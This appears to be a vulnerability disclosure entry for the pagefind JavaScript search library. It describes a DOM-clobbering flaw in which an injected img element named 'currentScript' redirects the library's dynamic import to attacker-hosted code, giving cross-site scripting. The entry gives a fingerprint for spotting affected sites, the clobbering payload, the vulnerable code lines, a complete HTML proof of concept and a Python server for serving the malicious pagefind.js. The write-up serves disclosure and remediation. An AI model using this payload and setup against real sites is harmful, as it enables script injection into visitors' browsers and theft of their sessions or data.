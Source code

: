 ## pagefind

### Meta

+ Library: pagefind
+ Stars: 3.3K
+ Version: v1.1.0
+ Fingerprint: `typeof PagefindUI !== 'undefined'`
+ Payload: ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Todo
+ Foundby: TheHulk

### Library

Built locally
+ `https://github.com/cloudcannon/pagefind`

### Vulnerable Code Snippet

```javascript
en = new URL(document.currentScript.src).pathname.match(/^(.*\/)(?:pagefind-)?ui.js.*$/)[1]
```

```javascript
g = await import(`${r}pagefind.js`)
```

## PoC

```html
<html>
site
<img name="currentScript" src="blob:http://localhost:8000/ui.js"></img>

<link href="pagefind/pagefind-ui.css" rel="stylesheet">
<script src="pagefind/pagefind-ui.js"></script>
<div id="search"></div>
<script>
    window.addEventListener('DOMContentLoaded', (event) => {
        new PagefindUI({ element: "#search", showSubResults: true });
    });
</script>
</html>
```

run pagefind to create index. create `pagefind.js`, needs to be hosted with Access-Control-Allow-Origin set. 

```python
#!/usr/bin/env python
from http import server

class MyHTTPRequestHandler(server.SimpleHTTPRequestHandler):
    def end_headers(self):
        self.send_header("Access-Control-Allow-Origin", "*")
        server.SimpleHTTPRequestHandler.end_headers(self)


if __name__ == '__main__':
    server.test(HandlerClass=MyHTTPRequestHandler)
```
